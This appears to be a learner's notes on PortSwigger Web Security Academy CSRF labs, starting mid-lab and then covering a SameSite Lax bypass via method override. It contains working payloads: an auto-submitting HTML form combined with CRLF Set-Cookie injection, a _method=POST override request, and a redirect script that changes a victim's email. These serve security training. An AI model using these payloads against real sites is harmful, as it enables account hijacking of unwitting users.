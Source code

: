 - we will inject to cookie header trough the search set cookie, value which will be equal to the csrf token (first tab)
![[Pasted image 20240922013015.png]]

- HTML payload (form action= https://HOST/POST (change email request - first tab) | 
               img src= https://HOST/POST(injected header - second tab) )
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <form action="https://0a25003904014c148065ad2c00ae00af.web-security-academy.net/my-account/change-email" method="post">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="hacked">
        </form>

        <img src="https://0a25003904014c148065ad2c00ae00af.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=hacked%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

# **7. SameSite Lax bypass via method override**

##### Study the change email function
1. In Burp's browser, log in to your own account and change your email address.
2. In Burp, go to the **Proxy > HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass the SameSite cookie restrictions.
4. Look at the response to your `POST /login` request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.
5. Recognize that this means the session cookie will be sent in cross-site `GET` requests, as long as they involve a top-level navigation.

##### Bypass the SameSite restrictions
1. Send the `POST /my-account/change-email` request to Burp Repeater.
2. In Burp Repeater, right-click on the request and select **Change request method**. Burp automatically generates an equivalent `GET` request.
3. Send the request. Observe that the endpoint only allows `POST` requests.
4. Try overriding the method by adding the `_method` parameter to the query string:
    `GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1`
5. Send the request. Observe that this seems to have been accepted by the server.
6. In the browser, go to your account page and confirm that your email address has changed.

##### Craft an exploit
1. In the browser, go to the exploit server.
2. In the **Body** section, create an HTML/JavaScript payload that induces the viewer's browser to issue the malicious `GET` request. Remember that this must cause a top-level navigation in order for the session cookie to be included. The following is one possible approach:
    `<script> document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST"; </script>`
3. Store and view the exploit yourself. Confirm that this has successfully changed your email address on the target site.
4. Change the email address in your exploit so that it doesn't match your own & deliver the exploit to the victim.
